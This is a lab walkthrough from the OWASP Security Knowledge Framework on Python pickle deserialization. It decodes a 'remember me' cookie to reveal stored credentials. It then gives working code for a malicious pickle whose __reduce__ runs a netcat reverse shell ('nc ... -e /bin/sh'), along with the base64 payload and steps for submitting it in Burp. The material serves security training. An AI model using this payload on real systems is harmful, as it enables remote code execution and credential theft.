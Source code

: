 # KBID xxx - Deserialization - Pickle-2

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle-2
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution. 

Some use cases for python pickle:
1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence)
2) sending python data over a TCP connection in a multi-core or distributed system (marshalling)
3) storing python objects in a database
4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and register a new user

![](.gitbook/assets/DES-Register.png)

![](.gitbook/assets/DES-Register2.png)

Please note that (for convenience) your password will be reset if the user already exists.
Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:

![](.gitbook/assets/DES-Login1.png)

You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:

![](.gitbook/assets/DES-Loggedin.png)

To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:

![](.gitbook/assets/DES-Rememberme1.png)

This results in the following request and response:

![](.gitbook/assets/DES-Rememberme2.png)

This works because we received a rememberme cookie during our initial login:

![](.gitbook/assets/DES-Rememberme3.png)

As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

From wikipedia:
The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy


```python
import pickle, base64
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class.
So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

The dir() function returns all properties and methods of the specified object, without the values.
This function will return all the properties and methods, even built-in properties which are default for all object.


```text
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```
The attributes we were looking for are 'password' and 'username'

Putting it all toghther:
```Python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell.
After instanciating the object, we serialize it and base64 encode it. This output will be our payload. 


```Python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

This will yield the following output:
```Text
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:

![](.gitbook/assets/DES-nc-listner.png)

We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above:
![](.gitbook/assets/DES-Sendpayload.png)

A revers shell is is connected:
![](.gitbook/assets/DES-Shell.png)



## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" caption="" %}

